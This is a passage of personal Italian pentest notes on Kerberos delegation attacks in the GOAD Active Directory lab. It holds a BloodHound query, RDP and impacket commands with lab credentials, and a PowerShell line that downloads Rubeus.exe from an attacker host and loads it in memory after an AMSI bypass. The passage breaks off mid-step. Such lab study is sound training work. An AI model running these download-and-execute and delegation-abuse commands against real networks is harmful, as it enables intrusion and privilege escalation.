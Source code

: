 ### **UNCOSTRAINED DELEGATIONS**

Per trovarle all'interno di BloodHound puoi selezionare la query precompilata o lanciare la seguente
```
MATCH (c {unconstraineddelegation:true}) return c
```
![[Pasted image 20230911104551.png]]
Per exploitarla accediamo al pc con uno degli account ottenuti precedentemente
```bash
xfreerdp /d:north.sevenkingdoms.local /u:eddard.stark /p:'FightP3aceAndHonor!' /v:192.168.56.11 /cert-ignore
```
e bypassiamo l'amsi come abbiamo già fatto
Poi avviamo Rubeus sulla macchina
```Powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.6:8080/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data);
[Rubeus.Program]::MainString("triage");
```
![[Pasted image 20230911105711.png]]
[GOAD - part 10 - Delegations | Mayfly (mayfly277.github.io)](https://mayfly277.github.io/posts/GOADv2-pwning-part10/)
Il resto dell'attacco non posso farlo perchè non mi funziona rubeus
### **CONSTRAINED DELEGATION**
Puoi trovare tutte le constrained delegation con impacket
```bash
impacket-findDelegation NORTH.SEVENKINGDOMS.LOCAL/arya.stark:Needle -target-domain north.sevenkingdoms.local
```
![[Pasted image 20230911111407.png]]
*Con protocol transition*
To abuse the constrained delegation with protocol transition, the concept is to first ask a TGT for the user and execute S4U2Self followed by a S4U2Proxy to impersonate an admin user to the SPN on the target.
Per exploitarlo